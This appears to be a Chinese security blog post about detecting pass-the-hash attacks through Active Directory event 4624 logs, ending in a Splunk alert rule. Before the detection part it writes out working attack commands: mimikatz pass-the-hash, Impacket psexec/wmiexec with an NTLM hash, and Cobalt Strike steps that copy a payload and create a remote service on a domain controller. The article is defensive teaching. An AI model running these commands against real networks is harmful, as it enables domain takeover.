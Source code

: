 #  基于AD Event日志检测哈希传递攻击

原创 Bypass [ Bypass ](javascript:void\(0\);)

**Bypass** ![]()

微信号 Bypass--

功能介绍 致力于分享原创高质量干货，包括但不限于：渗透测试、WAF绕过、代码审计、安全运维。 闻道有先后，术业有专攻，如是而已。

____

___发表于_

收录于合集

**01、简介**

哈希传递攻击是基于NTLM认证的一种攻击方式，当我们获得某个管理员用户的密码哈希值，就可以利用密码哈希值进行横向渗透。

在域环境中，只有域管理员的哈希值才能进行哈希传递攻击，攻击成功后，可以访问域内任何一台机器。基于AD
Event日志如何检测哈希传递攻击，这个就是我们今天探讨的话题。

 **02、哈希传递攻击实例**

 **（1）使用mimikatz 进行哈希传递获取域控权限**

在域环境中，当我们获得了域管理员的NTLM哈希值，我们就可以访问域内任何一台服务器。

  *   *   *   * 

    
    
     #提权 privilege::debug #使用域管理员bypassu拍卖行及的NTLM值进行哈希传递攻击 sekurlsa::pth /user:bypass /domain:evil.com /ntlm:44f077e27f6fef69e7bd834c7242b040

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221208204539.png)

利用PsExec.exe来远程登录和执行命令

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221208204550.png)

 **（2）使用lmpacket工具包进行哈希传递获取域控权限**

lmpacket工具包集成了多个脚本，可用来进行哈希传递，如psexec.py、wmiexec.py。

  *   * 

    
    
    psexec.py  -hashes 00000000000000000000000000000000:44f077e27f6fef69e7bd834c7242b040 bypass@192.168.44.219wmiexec.py -hashes 00000000000000000000000000000000:44f077e27f6fef69e7bd834c7242b040 bypass@192.168.44.219

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221208204551.png)

 **(3) 通过Cobalt strike进行pth横向获取域控权限**

在已上线的机器中，使用先前获取的hash对目标域控进行哈希传递攻击，获取域控权限。

哈希传递  

  *   * 

    
    
    pth evil\bypass 44f077e27f6fef69e7bd834c7242b040shell dir \\192.168.44.219\c$

获取系统权限

  *   *   *   * 

    
    
    shell copy  C:\Users\administrator\Desktop\artifact.exe \\192.168.44.219\c$shell sc \\192.168.44.219 create test binpath=C:\artifact.exeshell sc \\192.168.44.219 start testshell sc \\192.168.44.219 delete test

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221208204553.png)

 **03、哈希传递攻击检测**

哈希传递攻击的检测其实是比较困难的，因为它总是和正常的访问行为非常类似，我们需要从域控收集的大量的安全日志中找到需要关心的事件和具体的值。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221208204554.png)

分析：在使用NTLM凭证进行横向获取域控权限时，域控的日志中会记录4624登录事件，LogonType为3且登录进程为NtlmSsp，这里可以找到登录用户和登录源地址。为了能从正常的访问行为中，找出异常登录行为，我们可以设置白名单，将域控管理员和正常登录来源IP添加至白名单，关注关键用户的登录行为，排除干扰项。另外，当攻击者使用工具进行哈希传递的时候，比如使用psexec.py脚本进行哈希传递会同时产生多条LogonType为3且登录进程为NtlmSsp的日志，我们还可以将登录频率作为判断依据进行检测。

安全规则示例：

  *   * 

    
    
    eventtype=wineventlog_security   EventCode=4624   LogonProcessName=NtLmSsp   match_user!="*$"    src!="-"   match_user IN("administrator","bypass") | eval time=_time | bin time span=30m   | stats  count earliest(_time) AS start_time latest(_time) AS end_time values(src) as val_src  by time match_user  dest   | eval  start_time=strftime(start_time,"%F %T"),end_time=strftime(end_time,"%F %T")  | search count >5  | nomv val_src | eval message="在"+start_time+"到"+end_time+"时间内，域控服务器:"+dest +" 疑似遭受哈希传递攻击"+count+"次, 操作账号:"+match_user+" 操作来源ip:"+val_src| table  start_time   end_time  match_user message  count val_src  dest

告警效果如下图：

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221208204556.png)

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

